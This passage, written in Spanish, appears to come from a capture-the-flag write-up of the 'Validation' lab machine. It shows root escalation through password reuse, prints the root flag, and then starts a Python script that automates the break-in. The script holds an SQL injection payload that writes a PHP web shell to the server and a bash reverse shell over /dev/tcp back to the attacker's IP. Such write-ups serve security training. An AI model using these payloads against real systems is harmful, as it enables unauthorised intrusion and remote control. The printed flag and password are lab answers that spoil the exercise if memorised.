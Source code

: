 Pero como tenemos la contraseña, si tenemos suerte podría ser la de administrador:
```
www-data@validation:/var/www/html$ su root
su root
Password: uhc-9qual-global-pw

root@validation:/var/www/html# whoami
whoami
root
root@validation:/var/www/html# 
```
Como la contraseña resultó ser la de root, nos hemos convertido en admin, ahora buscaremos la flag de root:
```
root@validation:~# cat root.txt
cat root.txt
f9f6320d7a1fc7f4d4a0
```

Hemos vulnerado completamente la máquina hasta ser administradores.

Sin embargo, como la escalada ha sido bastante lamentable, haremos un script en python para automatizar la intrusión:

En primer lugar, utilizaremos la libreria **requests** y **pwn** para realizar las conexiones, empezaremos definiendo las IP:

```python
target = 'http://10.10.11.116'
target2 = 'http://10.10.11.116/evil.php'
ip = '10.10.14.17' # cambiar esto
session = requests.session()
```

Luego, después de definir las variables globales haremos una función llamada **sqli**, la cual hará la creación del archivo malicioso en el servidor web:

```python
def sqli():

    payload=  """Brazil' union select "<?php system($_REQUEST['cmd']); ?>" into outfile "/var/www/html/evil.php"-- -"""
    
    post_data =  {
        'username':'test',
        'country':payload
    
    }

    session.post(target,data=post_data)
```

Luego, creamos la función que entablará la conexión reversa a nuestra máquina:

```python
def reverse():

    payload ="bash -c 'bash -i >& /dev/tcp/%s/1234 0>&1'" %ip

    post_data={

        'cmd':payload

    }

    session.post(target2,data=post_data)
```
Finalmente, tenemos el main, en el cual llamaremos a estas dos funciones:
